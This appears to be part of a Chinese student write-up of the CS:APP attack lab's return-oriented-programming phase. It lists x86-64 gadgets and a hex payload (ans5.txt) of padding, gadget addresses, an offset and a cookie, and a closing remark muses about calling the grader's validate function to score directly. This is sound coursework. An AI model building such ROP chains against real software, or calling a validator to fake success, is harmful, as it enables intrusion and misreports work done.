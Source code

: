 add_xy

movq %rax,%rsi









```assembly
movq %rsp,%rax
retq
movq %rax,%rdi
retq
popq %rax
movl %eax,%ecx
retq
movl %ecx,%edx
retq
movl %edx,%esi
retq
call add_xy
retq
movq %rax,%rsi
retq
```



计算过程略

##### ans5.txt

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00 #偏移量，注入完代码后再保存ascii，获得偏移量
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61 00
```







#### p.s.

想办法调用validate是不是就能直接得分了，不知道有什么保护措施

读汇编代码时，不用像bomblab一样一行行读，切实了解了segmentation fault的隐患，加深了code injection的概念
